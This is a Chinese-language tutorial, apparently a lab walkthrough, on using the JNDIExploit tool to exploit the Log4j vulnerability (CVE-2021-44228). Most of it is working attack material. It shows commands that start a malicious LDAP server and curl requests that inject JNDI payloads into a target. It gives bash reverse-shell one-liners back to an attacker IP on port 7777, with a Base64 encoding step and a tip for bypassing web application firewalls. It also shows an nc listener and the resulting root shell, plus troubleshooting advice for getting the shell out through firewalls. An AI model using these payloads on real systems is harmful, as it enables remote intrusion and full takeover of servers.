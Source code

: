 ##  JNDIExploit 的完整工作原理

这条命令是用来**启动 `JNDIExploit` 工具**，用于在目标系统中**利用 Log4j 漏洞（CVE-2021-44228）** 触发 JNDI 加载器漏洞，从而执行远程代码（RCE）。

------

## 🔎 **完整命令解释**

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.109.5
```

| 命令部分                       | 含义               | 解释                                                     |
| ------------------------------ | ------------------ | -------------------------------------------------------- |
| `java`                         | 调用 Java 运行环境 | JNDIExploit 是 Java 编写的工具，需要通过 `java` 命令运行 |
| `-jar`                         | 指定运行 JAR 文件  | 表示要运行一个 JAR 包                                    |
| `JNDIExploit-1.2-SNAPSHOT.jar` | 工具文件           | 表示 JNDIExploit 的 Jar 文件                             |
| `-i 192.168.109.5`             | 设置监听 IP        | 设置 JNDIExploit 监听的 IP 地址（攻击者 IP）             |

------

## 🧠 **JNDIExploit 是什么？**

`JNDIExploit` 是一个用于复现和利用 Log4j 漏洞（CVE-2021-44228）的攻击工具。

- 在 Log4j 漏洞中，目标系统在日志中解析包含 JNDI（Java Naming and Directory Interface）表达式时，可能会自动加载远程类或对象。
- JNDIExploit 工具可以作为一个 **恶意 LDAP/RMI 服务器**，用于伪造恶意对象或命令。
- 目标系统解析 JNDI 请求后，加载 JNDIExploit 服务器提供的对象，从而触发远程代码执行（RCE）。

------

## 🚀 **命令的作用**

这条命令的作用是：

1. 启动一个恶意的 LDAP 服务器
2. 监听在 `192.168.109.5`（即攻击者 IP）
3. 当目标系统访问这个恶意服务器时，JNDIExploit 会返回一个恶意对象
4. 目标系统解析这个对象并触发反弹 Shell 或执行命令

------

## 🎯 **JNDIExploit 完整工作原理**

### 🔥 **1. 启动恶意 LDAP 服务器**

`JNDIExploit` 监听 `192.168.109.5` 的 LDAP 端口（默认是 `1389`）：

```bash
Listening on: ldap://192.168.109.5:1389
```

------

### 🔥 **2. 通过 Log4j 触发漏洞**

- 在目标系统中，通过 Log4j 发送特制的 JNDI Payload：

```bash
curl -G http://192.168.109.4:22220//hello \
--data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4...}'
```

------

### 🔥 **3. 目标系统向 JNDIExploit 服务器发起连接**

- 目标系统会通过 JNDI 请求访问 LDAP 服务器：

```
ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/...
```

------

### 🔥 **4. JNDIExploit 响应并返回恶意对象**

- JNDIExploit 服务器在接收到目标系统的请求后：
  - 加载并返回一个恶意的 `javax.el.ELProcessor` 或 `TomcatBypass` 对象
  - 这个对象中嵌入了反弹 Shell 或其他命令

------

### 🔥 **5. 目标系统加载恶意对象并执行命令**

- 目标系统在解析这个对象后，触发：
   ✅ 反弹 Shell
   ✅ 命令执行
   ✅ 文件写入

------

### 🔥 **6. 反弹 Shell**

- 通过 `bash` 或 `netcat`，将 Shell 反弹到攻击者机器：

```bash
bash -i >& /dev/tcp/192.168.109.5/7777 0>&1
```

------

## 🛠️ **常见 Payload 示例**

### ✅ **使用 `TomcatBypass` 反弹 Shell**

1. 生成 Base64 的反弹 Shell 命令：

```bash
echo -n 'bash -i >& /dev/tcp/192.168.109.5/7777 0>&1' | base64
```

1. 通过 JNDIExploit 触发：

```bash
curl -G http://192.168.109.4:22220//hello \
--data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4...}'
```

------

### ✅ **使用 ELProcessor 执行命令**

1. 使用 ELProcessor 的 Payload 执行命令：

```bash
curl -G http://192.168.109.4:22220//hello \
--data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/ELProcessor/Command/"bash -i >& /dev/tcp/192.168.109.5/7777 0>&1"}'
```

------

### ✅ **通过 Base64 绕过字符拦截**

- 某些 WAF 或防火墙会拦截特定字符（如 `;`, `|`, `>`）。
- 使用 Base64 进行编码可以有效绕过。

**示例：**

```bash
echo -n 'bash -i >& /dev/tcp/192.168.109.5/7777 0>&1' | base64
```

生成的 Base64：

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwOS41Lzc3NzcgMD4mMQ==
```

------

## ✅ **命令执行成功的标志**

1. 在 JNDIExploit 服务器中，看到类似的日志输出：

```
[+] Received LDAP Query: TomcatBypass/Command/Base64/YmFza...
[+] Sending LDAP ResourceRef result for TomcatBypass/Command...
```

1. 在攻击机上通过 `nc` 监听端口，接收到反弹 Shell：

```bash
nc -lvnp 7777
```

输出：

```
bash: no job control in this shell
root@victim:/#
```

------

## 🚨 **常见问题与解决方法**

| 问题                   | 原因                     | 解决方法                    |
| ---------------------- | ------------------------ | --------------------------- |
| ❌ 没有收到 Shell       | 防火墙阻止出站连接       | 尝试使用 80 或 443 端口     |
| ❌ "Connection Refused" | 目标服务器没有开启防火墙 | 检查网络连接                |
| ❌ LDAP 请求未触发      | JNDI 解析器被禁用        | 确认 Log4j 版本支持 JNDI    |
| ❌ Payload 被拦截       | WAF 拦截                 | 使用 Base64 或 URL 编码绕过 |

------

## 🏆 **完整攻击链总结**

1. 启动 JNDIExploit（监听 LDAP 请求）
2. 通过 Log4j 在目标服务器中发送 JNDI Payload
3. 目标系统解析 LDAP 响应
4. JNDIExploit 发送恶意对象（TomcatBypass/ELProcessor）
5. 目标系统加载并执行命令
6. 成功获取反弹 Shell ✅

------

## 🎯 **最终成功示例**

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.109.5
nc -lvp 7777
```

Payload 示例：

```bash
${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA+JiAvZGV2...
```

## 